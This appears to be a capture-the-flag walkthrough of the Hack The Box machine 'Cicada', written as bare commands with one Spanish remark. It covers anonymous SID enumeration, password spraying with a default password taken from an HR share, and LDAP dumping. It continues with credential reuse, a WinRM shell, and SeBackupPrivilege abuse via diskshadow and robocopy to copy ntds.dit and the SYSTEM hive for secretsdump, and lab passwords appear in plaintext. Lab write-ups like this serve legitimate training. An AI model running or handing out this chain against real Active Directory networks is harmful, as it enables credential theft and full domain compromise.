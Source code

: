 ```yaml
---
layout: default
title: Cicada
---
```

```bash
impacket-lookupsid anonymous@cicada.htb -target-ip 10.10.11.35 -no-pass | grep SidTypeUser | tr '\\' ' ' | awk '{print $3}' > validUsers.txt
```

```bash
smbclient //10.10.11.35/HR -N
get "Notice from HR.txt"
```

`Default pass`
```
Cicada$M6Corpb*@Lp#nZp!8
```

```bash
netexec smb 10.10.11.35 -u validUsers.txt  -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

```
michael.wrightson \ Cicada$M6Corpb*@Lp#nZp!8 
```

```bash
ldapdomaindump -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.10.11.35
```

La descripción de David Orelious contiene su pass

```
david.orelious \ aRt$Lp#7t*VQ!3
```

```bash
smbclient //10.10.11.35/DEV -U david.orelious%'aRt$Lp#7t*VQ!3'

get Backup_script.ps1
```

```
emily.oscars \ Q!3@Lp#M6b*7t*Vt
```

```bash
netexec winrm 10.10.11.35 -u 'emily.oscars'  -p 'Q!3@Lp#M6b*7t*Vt'
```

```bash
evil-winrm -i 10.10.11.35 -u 'emily.oscars'  -p 'Q!3@Lp#M6b*7t*Vt'
```

# SeBackupPrivilege/SeRestorePrivilege


`raj.dsh`
```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

```bash
unix2dos raj.dsh
```

```bash
upload raj.dsh
```

```bash
cd $env:TEMP
upload raj.dsh
diskshadow /s raj.dsh
robocopy /b z:\windows\ntds . ntds.dit
```

```bash
reg save hklm\system C:\Users\emily.oscars.CICADA\AppData\Local\Temp\system.hive
```

```
download system.hive
download ntds.dit
```

```bash
impacket-secretsdump -ntds ntds.dit -system system.hive local
```